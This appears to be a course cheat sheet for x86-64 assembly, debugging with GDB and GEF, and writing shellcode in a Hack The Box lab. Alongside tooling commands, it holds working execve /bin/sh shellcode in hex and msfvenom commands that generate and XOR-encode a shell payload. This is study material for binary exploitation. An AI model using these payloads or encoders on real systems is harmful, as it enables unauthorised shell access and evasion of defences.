# Assembly Language Cheat Sheet:

## Create Assembly Code File:

nano mov.s


### Assemble file and make it executable: (.s, .as, .asm)

nasm -f elf64 mov.s

ld -o mov mov.o

chmod 777 mov


### Disassemble executable file:

https://docs.pwntools.com/en/stable/commandline.html

sudo pip3 install pwntools

pwn asm 'push rax'  -c 'amd64'

pwn disasm '50' -c 'amd64'

objdump -M intel -d mov

objdump -sj .data mov

objdump -M intel --no-show-raw-insn --no-addresses -d mov

### Install GEF for easy debugging:

wget -O ~/.gdbinit-gef.py -q https://gef.blah.cat/py

echo source ~/.gdbinit-gef.py >> ~/.gdbinit

Run GDB with GEF:

gdb -q .\mov


### Look at functions an variables:

gef➤  info functions

gef➤  info variables

Disassemble function:

gef➤  disas _start

Set Breakpoint, Run and Step-Into:

gef➤  b _start

gef➤  r

gef➤  si

gef➤  step

### Examine registers or variables:
Argument 	Description 	Example
Count 	The number of times we want to repeat the examine 	2, 3, 10
Format 	The format we want the result to be represented in 	x(hex), s(string), i(instruction)
Size 	The size of memory we want to examine 	b(byte), h(halfword), w(word), g(giant, 8 bytes)

gef➤  x/4ig $rip

gef➤  x/s 0x402000

gef➤  registers

Write values to addresses:

gef➤  help patch


### Searchable Linux Syscall table

https://filippo.io/linux-syscall-table/

## ShellCode:
Install pwn tool to run shell code

/'''
[/htb]$ pip3 install pwn

[/htb]$ python3

>>> from pwn import *

>>> context(os="linux", arch="amd64", log_level="error")

>>run_shellcode(unhex('4831db536a0a48b86d336d307279217d5048b833645f316e37305f5048b84854427b6c303464504889e64831c0b0014831ff40b7014831d2b2190f054831c0043c4030ff0f05')).interactive()

HTB{l04d3d_1n70_m3m0ry!}

>>> dir(shellcraft)
'''/

### Msfvenom encoding 

`msfvenom -l encoders`

`msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'`

/'''
[/htb]$ python3 loader.py 
'4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c'

$ whoami

root
'''/

If we had a custom shellcode that we wrote, we could use msfvenom to encode it as well, by writing its bytes to a file and then passing it to msfvenom with -p -, as follows:

`[/htb]$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin`

`$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin`

Finally, we can always search online resources like [Shell-Storm](http://shell-storm.org/shellcode/index.html) or [Exploit DB](https://www.exploit-db.com/shellcodes) for existing shellcodes.

For example, if we search Shell-Storm for a /bin/sh shellcode on Linux/x86_64, we will find several examples of varying sizes, like this 27-bytes shellcode. We can search Exploit DB for the same, and we find a more optimized 22-bytes shellcode, which can be helpful if our Binary Exploitation only had around 22-bytes of overflow space. We can also search for encoded shellcodes, which are bound to be larger.


